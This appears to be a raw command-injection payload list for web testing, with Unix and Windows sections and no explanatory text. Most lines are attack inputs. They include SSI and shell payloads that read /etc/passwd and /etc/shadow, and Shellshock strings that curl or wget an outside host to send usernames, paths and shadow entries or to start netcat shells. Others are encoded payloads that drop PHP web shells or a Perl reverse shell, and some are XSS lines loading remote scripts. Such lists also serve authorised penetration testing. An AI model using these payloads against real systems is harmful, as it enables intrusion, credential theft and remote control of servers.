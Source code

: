 <h3>Unix</h3>
<pre>
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
\n/bin/ls -al\n
\n/usr/bin/id\n
\nid\n
\n/usr/bin/id;
\nid;
\n/usr/bin/id|
\nid|
;/usr/bin/id\n
;id\n
|usr/bin/id\n
|nid\n
`id`
`/usr/bin/id`
a);id
a;id
a);id;
a;id;
a);id|
a;id|
a)|id
a|id
a)|id;
a|id
|/bin/ls -al
a);/usr/bin/id
a;/usr/bin/id
a);/usr/bin/id;
a;/usr/bin/id;
a);/usr/bin/id|
a;/usr/bin/id|
a)|/usr/bin/id
a|/usr/bin/id
a)|/usr/bin/id;
a|/usr/bin/id
;system('cat%20/etc/passwd')
;system('id')
;system('/usr/bin/id')
%0Acat%20/etc/passwd
%0A/usr/bin/id
%0Aid
%0A/usr/bin/id%0A
%0Aid%0A
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
%0a ping -i 30 127.0.0.1 %0a
`ping 127.0.0.1`
| id
& id
; id
%0a id %0a
`id`
$;/usr/bin/id
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=16?user=\`whoami\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=18?pwd=\`pwd\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=20?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=22?uname=\`uname -a\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=24?shell=\`nc -lvvp 1234 -e /bin/bash\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=26?shell=\`nc -lvvp 1236 -e /bin/bash &\`"
() { :;}; /bin/bash -c "curl http://135.23.158.130/.testing/shellshock.txt?vuln=5"
() { :;}; /bin/bash -c "sleep 1 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=1&?vuln=6"
() { :;}; /bin/bash -c "sleep 1 && echo vulnerable 1"
() { :;}; /bin/bash -c "sleep 3 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=3&?vuln=7"
() { :;}; /bin/bash -c "sleep 3 && echo vulnerable 3"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=6&?vuln=8"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.130/.testing/shellshock.txt?sleep=9&?vuln=9"
() { :;}; /bin/bash -c "sleep 6 && echo vulnerable 6"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=17?user=\`whoami\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=19?pwd=\`pwd\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=21?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=23?uname=\`uname -a\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=25?shell=\`nc -lvvp 1235 -e /bin/bash\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=27?shell=\`nc -lvvp 1237 -e /bin/bash &\`"
() { :;}; /bin/bash -c "wget http://135.23.158.130/.testing/shellshock.txt?vuln=4"
cat /etc/hosts
$(`cat /etc/passwd`)
cat /etc/passwd
%0Acat%20/etc/passwd
&#123;&#123; get_user_file(&quot;/etc/passwd&quot;) &#125;&#125;
&lt; !--#exec cmd="/bin/cat /etc/passwd"--&gt;
&lt; !--#exec cmd="/bin/cat /etc/shadow"--&gt;
&lt; !--#exec cmd="/usr/bin/id;"--&gt;
system('cat /etc/passwd');
&lt;?php system(&quot;cat /etc/passwd&quot;);?&gt;
</pre>

<h3>Windows</h3>
<pre>
` %60
|| %7C%7C
| %7C
; %3B
' %27
' "%27%22%22
" %22
" ' %22%27%22
"' %22%27%22
& %26
&& %26%26
%0a %250a
%0a%0d %250a%250d
%0Aid %250Aid
%0a id %0a %250a%20id%250a
%0Aid%0A %250Aid%250A
%0a ping -i 30 127.0.0.1 %0a %250a%20ping%20-i%2030%20127.0.0.1%20%250a
%0A/usr/bin/id %250A/usr/bin/id
%0A/usr/bin/id%0A %250A/usr/bin/id%250A
%2 -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1 %2520-%6e%2021%20127.0.0.1%7C%7C%60ping%20-%63%2021%20127.0.0.1%60%20%23'%20%7Cping%20-%6e%2021%20127.0.0.1%7C%7C%60ping%20-%63%2021%20127.0.0.1%60%20%23%5c%22%20%7Cping%20-%6e%2021%20127.0.0.1
%20{${phpinfo()}} %2520%7B%24%7Bphpinfo%28%29%7D%7D
%20{${sleep(20)}} %2520%7B%24%7Bsleep%2820%29%7D%7D
%20{${sleep(3)}} %2520%7B%24%7Bsleep%283%29%7D%7D
a|id| a%7Cid%7C
a;id| a%3Bid%7C
a;id; a%3Bid%3B
a;id\n a%3Bid%250a
() { :;}; curl http://135.23.158.130/.testing/shellshock.txt?vuln=12 %28%29%20%7B%20%3A%3B%7D%3B%20curl%20http%3A//135.23.158.130/.testing/shellshock.txt%3Fvuln%3D12
| curl http://crowdshield.com/.testing/rce.txt %7C%20curl%20http%3A//crowdshield.com/.testing/rce.txt
& curl http://crowdshield.com/.testing/rce.txt %26%20curl%20http%3A//crowdshield.com/.testing/rce.txt
; curl https://crowdshield.com/.testing/rce_vuln.txt %3B%20curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt
&& curl https://crowdshield.com/.testing/rce_vuln.txt %26%26%20curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt
curl https://crowdshield.com/.testing/rce_vuln.txt curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt
 curl https://crowdshield.com/.testing/rce_vuln.txt ||`curl https://crowdshield.com/.testing/rce_vuln.txt` #' |curl https://crowdshield.com/.testing/rce_vuln.txt||`curl https://crowdshield.com/.testing/rce_vuln.txt` #\" |curl https://crowdshield.com/.testing/rce_vuln.txt %20curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%20%7C%7C%60curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%60%20%23'%20%7Ccurl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%7C%7C%60curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%60%20%23%5c%22%20%7Ccurl%20https%3A//crowdshield.com/.testing/rce_vuln.txt
curl https://crowdshield.com/.testing/rce_vuln.txt ||`curl https://crowdshield.com/.testing/rce_vuln.txt` #' |curl https://crowdshield.com/.testing/rce_vuln.txt||`curl https://crowdshield.com/.testing/rce_vuln.txt` #\" |curl https://crowdshield.com/.testing/rce_vuln.txt curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%20%7C%7C%60curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%60%20%23'%20%7Ccurl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%7C%7C%60curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%60%20%23%5c%22%20%7Ccurl%20https%3A//crowdshield.com/.testing/rce_vuln.txt
$(`curl https://crowdshield.com/.testing/rce_vuln.txt?req=22jjffjbn`) %24%28%60curl%20https%3A//crowdshield.com/.testing/rce_vuln.txt%3Freq%3D22jjffjbn%60%29
dir dir
| dir %7C%20dir
; dir %3B%20dir
$(`dir`) %24%28%60dir%60%29
& dir %26%20dir
&&dir %26%26dir
&& dir %26%26%20dir
| dir C:\ %7C%20dir%20C%3A%5C
; dir C:\ %3B%20dir%20C%3A%5C
& dir C:\ %26%20dir%20C%3A%5C
&& dir C:\ %26%26%20dir%20C%3A%5C
dir C:\ dir%20C%3A%5C
| dir C:\Documents and Settings\* %7C%20dir%20C%3A%5CDocuments%20and%20Settings%5C%2A
; dir C:\Documents and Settings\* %3B%20dir%20C%3A%5CDocuments%20and%20Settings%5C%2A
& dir C:\Documents and Settings\* %26%20dir%20C%3A%5CDocuments%20and%20Settings%5C%2A
&& dir C:\Documents and Settings\* %26%26%20dir%20C%3A%5CDocuments%20and%20Settings%5C%2A
dir C:\Documents and Settings\* dir%20C%3A%5CDocuments%20and%20Settings%5C%2A
| dir C:\Users %7C%20dir%20C%3A%5CUsers
; dir C:\Users %3B%20dir%20C%3A%5CUsers
& dir C:\Users %26%20dir%20C%3A%5CUsers
&& dir C:\Users %26%26%20dir%20C%3A%5CUsers
dir C:\Users dir%20C%3A%5CUsers

;echo%20%27%3Cscript%3Ealert%281%29%3C/script%3E%27
echo%20%27%3Cimg%20src%3Dhttps%3A//crowdshield.com/.testing/xss.js%20onload%3Dprompt%282%29%20onerror%3Dalert%283%29%3E%3C/img%3E%27//%20XXXXXXXXXXX
| echo%20%22%3C%3Fphp%20include%28%24_GET%5B%27page%27%5D%29%7C%20%22%20%3E%20rfi.php
; echo%20%22%3C%3Fphp%20include%28%24_GET%5B%27page%27%5D%29%3B%20%3F%3E%22%20%3E%20rfi.php
& echo%20%22%3C%3Fphp%20include%28%24_GET%5B%27page%27%5D%29%3B%20%3F%3E%22%20%3E%20rfi.php
&& echo%20%22%3C%3Fphp%20include%28%24_GET%5B%27page%27%5D%29%3B%20%3F%3E%22%20%3E%20rfi.php
echo%20%22%3C%3Fphp%20include%28%24_GET%5B%27page%27%5D%29%3B%20%3F%3E%22%20%3E%20rfi.php
| echo%20%22%3C%3Fphp%20system%28%27dir%20%24_GET%5B%27dir%27%5D%27%29%7C%20%22%20%3E%20dir.php
; echo%20%22%3C%3Fphp%20system%28%27dir%20%24_GET%5B%27dir%27%5D%27%29%3B%20%3F%3E%22%20%3E%20dir.php
& echo%20%22%3C%3Fphp%20system%28%27dir%20%24_GET%5B%27dir%27%5D%27%29%3B%20%3F%3E%22%20%3E%20dir.php
&& echo%20%22%3C%3Fphp%20system%28%27dir%20%24_GET%5B%27dir%27%5D%27%29%3B%20%3F%3E%22%20%3E%20dir.php
echo%20%22%3C%3Fphp%20system%28%27dir%20%24_GET%5B%27dir%27%5D%27%29%3B%20%3F%3E%22%20%3E%20dir.php
| echo%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%7C%20%22%20%3E%20cmd.php
; echo%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20%3E%20cmd.php
& echo%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20%3E%20cmd.php
&& echo%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20%3E%20cmd.php
echo%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20%3E%20cmd.php
;echo%20%27%3Cscript%3Ealert%281%29%3C/script%3E%27
echo%20%27%3Cscript%3Ealert%281%29%3C/script%3E%27//%20XXXXXXXXXXX
echo%20%27%3Cscript%20src%3Dhttps%3A//crowdshield.com/.testing/xss.js%3E%3C/script%3E%27//%20XXXXXXXXXXX
| echo%20%22use%20Socket%3B%24i%3D%22192.168.16.151%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%3BS%22%29%3Bopen%28STDOUT%2C%22%3E%3BS%22%29%3Bopen%28STDERR%2C%22%3E%3BS%22%29%3Bexec%28%22/bin/sh%20-i%22%29%3B%7D%3B%22%20%3E%20rev.pl
; echo%20%22use%20Socket%3B%24i%3D%22192.168.16.151%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%3BS%22%29%3Bopen%28STDOUT%2C%22%3E%3BS%22%29%3Bopen%28STDERR%2C%22%3E%3BS%22%29%3Bexec%28%22/bin/sh%20-i%22%29%3B%7D%3B%22%20%3E%20rev.pl
& echo%20%22use%20Socket%3B%24i%3D%22192.168.16.151%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%3BS%22%29%3Bopen%28STDOUT%2C%22%3E%3BS%22%29%3Bopen%28STDERR%2C%22%3E%3BS%22%29%3Bexec%28%22/bin/sh%20-i%22%29%3B%7D%3B%22%20%3E%20rev.pl
&& echo%20%22use%20Socket%3B%24i%3D%22192.168.16.151%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%3BS%22%29%3Bopen%28STDOUT%2C%22%3E%3BS%22%29%3Bopen%28STDERR%2C%22%3E%3BS%22%29%3Bexec%28%22/bin/sh%20-i%22%29%3B%7D%3B%22%20%3E%20rev.pl
echo%20%22use%20Socket%3B%24i%3D%22192.168.16.151%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%3BS%22%29%3Bopen%28STDOUT%2C%22%3E%3BS%22%29%3Bopen%28STDERR%2C%22%3E%3BS%22%29%3Bexec%28%22/bin/sh%20-i%22%29%3B%7D%3B%22%20%3E%20rev.pl
()%20%7B%20%3A%3B%7D%3B%20echo%20vulnerable%2010


</pre>